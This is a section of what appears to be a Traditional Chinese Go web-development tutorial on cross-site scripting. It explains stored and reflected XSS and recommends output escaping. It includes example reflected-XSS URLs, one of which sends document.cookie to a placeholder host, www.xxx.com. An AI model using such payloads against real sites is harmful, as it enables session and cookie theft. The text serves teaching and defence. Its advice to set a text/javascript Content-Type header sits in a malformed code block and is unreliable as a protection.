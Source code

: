 # 9.3 避免 XSS 攻擊
隨著網際網路技術的發展，現在的 Web 應用都含有大量的動態內容以提高使用者體驗。所謂動態內容，就是應用程式能夠根據使用者環境和使用者請求，輸出相應的內容。動態站點會受到一種名為“跨站指令碼攻擊”（Cross Site Scripting, 安全專家們通常將其縮寫成 XSS）的威脅，而靜態站點則完全不受其影響。

## 什麼是 XSS

XSS 攻擊：跨站指令碼攻擊(Cross-Site Scripting)，為了不和層疊樣式表(Cascading Style Sheets, CSS)的縮寫混淆，故將跨站指令碼攻擊縮寫為 XSS。XSS 是一種常見的 web 安全漏洞，它允許攻擊者將惡意程式碼植入到提供給其它使用者使用的頁面中。不同於大多數攻擊(一般只涉及攻擊者和受害者)，XSS 涉及到三方，即攻擊者、客戶端與 Web 應用。XSS 的攻擊目標是為了盜取儲存在客戶端的 cookie 或者其他網站用於識別客戶端身份的敏感資訊。一旦取得到合法使用者的資訊後，攻擊者甚至可以假冒合法使用者與網站進行互動。

XSS 通常可以分為兩大類別：一類別是儲存型 XSS，主要出現在讓使用者輸入資料，供其他瀏覽此頁的使用者進行檢視的地方，包括留言、評論、部落格日誌和各類別表單等。應用程式從資料庫中查詢資料，在頁面中顯示出來，攻擊者在相關頁面輸入惡意的指令碼資料後，使用者瀏覽此類別頁面時就可能受到攻擊。這個流程簡單可以描述為 : 惡意使用者的 Html 輸入 Web 程式->進入資料庫->Web 程式->使用者瀏覽器。另一類別是反射型 XSS，主要做法是將指令碼程式碼加入 URL 地址的請求參數裡，請求參數進入程式後在頁面直接輸出，使用者點選類似的惡意連結就可能受到攻擊。

XSS 目前主要的手段和目的如下：

- 盜用 cookie，取得敏感資訊。
- 利用植入 Flash，透過 crossdomain 許可權設定進一步取得更高許可權；或者利用 Java 等得到類似的操作。
- 利用 iframe、frame、XMLHttpRequest 或上述 Flash 等方式，以（被攻擊者）使用者的身份執行一些管理動作，或執行一些如 : 發微博、加好友、發私信等常規操作，前段時間新浪微博就遭遇過一次 XSS。
- 利用可被攻擊的域受到其他域信任的特點，以受信任來源的身份請求一些平時不允許的操作，如進行不當的投票活動。
- 在訪問量極大的一些頁面上的 XSS 可以攻擊一些小型網站，實現 DDoS 攻擊的效果

## XSS 的原理
Web 應用未對使用者提交請求的資料做充分的檢查過濾，允許使用者在提交的資料中摻入 HTML 程式碼(最主要的是“>”、“<”)，並將未經轉義的惡意程式碼輸出到第三方使用者的瀏覽器解釋執行，是導致 XSS 漏洞的產生原因。

接下來以反射性 XSS 舉例說明 XSS 的過程：現在有一個網站，根據參數輸出使用者的名稱，例如訪問 url：`http://127.0.0.1/?name=astaxie`，就會在瀏覽器輸出如下資訊：

	hello astaxie

如果我們傳遞這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`，這時你就會發現瀏覽器跳出一個彈出框，這說明站點已經存在了 XSS 漏洞。那麼惡意使用者是如何盜取 Cookie 的呢？與上類似，如下這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，這樣就可以把當前的 cookie 傳送到指定的站點：`www.xxx.com`。你也許會說，這樣的 URL 一看就有問題，怎麼會有人點選？，是的，這類別的 URL 會讓人懷疑，但如果使用短網址服務將之縮短，你還看得出來麼？攻擊者將縮短過後的 url 透過某些途徑傳播開來，不明真相的使用者一旦點選了這樣的 url，相應 cookie 資料就會被髮送事先設定好的站點，這樣子就盜得了使用者的 cookie 資訊，然後就可以利用 Websleuth 之類別的工具來檢查是否能盜取那個使用者的賬戶。

更加詳細的關於 XSS 的分析大家可以參考這篇叫做《[新浪微博 XSS 事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何預防 XSS

答案很簡單，堅決不要相信使用者的任何輸入，並過濾掉輸入中的所有特殊字元。這樣就能消滅絕大部分的 XSS 攻擊。

目前防禦 XSS 主要有如下幾種方式：

- 過濾特殊字元

	避免 XSS 的方法之一主要是將使用者所提供的內容進行過濾，Go 語言提供了 HTML 的過濾函式：

	text/template 套件下面的 HTMLEscapeString、JSEscapeString 等函式

- 使用 HTTP 頭指定型別

```Go

`w.Header().Set("Content-Type","text/javascript")`

這樣就可以讓瀏覽器解析 javascript 程式碼，而不會是 html 輸出。

```
## 總結
XSS 漏洞是相當有危害的，在開發 Web 應用的時候，一定要記住過濾資料，特別是在輸出到客戶端之前，這是現在行之有效的防止 XSS 的手段。

## links
   * [目錄](<preface.md>)
   * 上一節: [確保輸入過濾](<09.2.md>)
   * 下一節: [避免 SQL 注入](<09.4.md>)
